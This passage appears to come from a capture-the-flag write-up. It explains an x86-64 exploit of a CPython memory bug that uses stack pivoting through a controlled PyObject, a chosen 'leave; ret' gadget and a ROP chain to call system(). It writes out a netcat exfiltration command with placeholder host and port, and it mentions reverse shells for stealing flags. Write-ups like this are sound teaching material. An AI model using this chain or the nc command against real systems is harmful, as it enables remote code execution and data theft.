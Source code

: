 Pay carefull attention to the register of `PyObject` that is passed into [PyObject_Hash](https://github.com/python/cpython/blob/32bd68c839adb7b42af12366ab0892303115d1d1/Objects/object.c#L766) - it's `RBP`! Hence, attacker also controls `rbp` register which is super useful for [stack pivoting](https://bananamafia.dev/post/binary-rop-stackpivot/). The rest is to find `leave; ret` gadget. But not any `leave; ret` gadget will fit in our conditions - don't forget, it's `PyObject` that we control, so if we do stack pivoting, then the resulting ROP chain will be placed onto `PyObject`. And another funny thing about this `Python` binary - it doesn't use `leave; ret` epiloge. Instead, it uses `add rsp, X` for the purposes of restoring previous stack frames, so it took some time to find useful gadget:

```
0x00000000004a9f69: leave; add rsp, 8; xor eax, eax; pop rbx; pop rbp; ret; 
```

Alright, we're almost done. As long as we control `rbp` through `PyObject`, we can call `leave` instruction in order to shift current stack pointer to the address under `rbp` register - `PyObject`. From this point, the choosen gadget pops two values from the stack and ret. Perfect conditions to call `system("ls | nc <reverse_ip> <reverse_port>")` using `system` function that is linked into `Python` binary (we know its address) and arbitrary cmd as you like in order to leak yummy flags. The final chain is the following:

```
rdi (rbp) -> +------------------+
             |     PyObject     |
             +------------------+
        +0x0 |    0x41414141    | <-- leave = mov rsp, rbp; pop rbp; so it's new rbp after leave
             +------------------+
        +0x8 | PyTypeObject ptr | ----------------->  +--------------+
             +------------------+                     | PyTypeObject |
       +0x10 |    0x43434343    |                     +--------------+
             +------------------+               +0x78 |   tp_hash    | ------+
       +0x18 |     pop rdi      |                     +--------------+       |
             +------------------+                                            |
       +0x20 |    command ptr   | ---+                                       v
             +------------------+    |                         0x4a9f69: leave; add rsp, 8; xor eax, eax; pop rbx; pop rbp; ret;
       +0x28 |     pop rsi      |    |
             +------------------+    |
       +0x30 |    system addr   |    |
             +------------------+    |
       +0x40 | echo "Hallo" >>  | <--+
             | /app/storage/hal |
             | lo.he\x00        |
             +------------------+
```

When the whole chain is executed the attacker gets RCE on the remote server and can leak flags by opening reverse shell using `python` or creating a file inside of `/app/storage/* `  which contains all other flags. Possibilites are unlimited


Another funny note: There are [public exploits](https://www.exploit-db.com/exploits/31875) for this vulnerability, but they work only for `x86-32` architecture. Exploit author has no idea how this bug was exploited in public exploits, so he wrote an exploit from the scratch for `x86-64`

## Vuln 2

goto `Vuln_1`